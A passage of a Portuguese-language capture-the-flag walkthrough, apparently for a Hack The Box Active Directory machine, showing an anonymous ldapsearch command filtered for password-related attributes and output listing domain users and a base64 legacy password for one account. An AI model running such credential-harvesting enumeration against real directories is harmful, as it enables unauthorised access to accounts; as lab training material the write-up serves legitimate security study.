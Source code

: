 Nenhum usuário é AS-REP Roastable... Next!

## 1.4. LDAPSearch

O ldapsearch é uma ferramenta que pode extrair toda a informação de todos os objectos extraíveis por LDAP, que é um protocolo de aplicação para acessar e manter serviços de informações de diretório. É por aí que, por exemplo, uma administrador de domínio cria um novo usuário local de uma máquina onde ele não está... Podemos enumerar os usuários todos, grupos, quem pertence a "x" grupo... É também esse o protocolo pelo qual a ferramenta **_bloodhound-python_**, já usada em outras máquina, extrai toda a informação para gerar o gráfico do bloodhound.

```bash
ldapsearch -x -h 10.10.10.182 -b "dc=cascade,dc=local" | grep "@cascade.local" -A 25 | grep -Ei "userPrincipalName|pass|pwd|cred|secret"

#>  userPrincipalName: CascGuest@cascade.local
#>  userPrincipalName: arksvc@cascade.local
#>  userPrincipalName: s.smith@cascade.local
#>  userPrincipalName: r.thompson@cascade.local
#>  cascadeLegacyPwd: clk0bjVldmE=
#>  userPrincipalName: util@cascade.local
#>  userPrincipalName: j.wakefield@cascade.local
#>  userPrincipalName: s.hickson@cascade.local
#>  userPrincipalName: j.goodhand@cascade.local
#>  userPrincipalName: a.turnbull@cascade.local
#>  userPrincipalName: e.crowe@cascade.local
#>  userPrincipalName: b.hanson@cascade.local
#>  userPrincipalName: d.burman@cascade.local
#>  userPrincipalName: BackupSvc@cascade.local
#>  userPrincipalName: j.allen@cascade.local
#>  userPrincipalName: i.croft@cascade.local
```

Temos de novo todos os usuários, mas também temos uma informação bonus! Uma palavra passe =)

> r.thompson:clk0bjVldmE=

Vamos validar a palavra passe com crackmapexec!
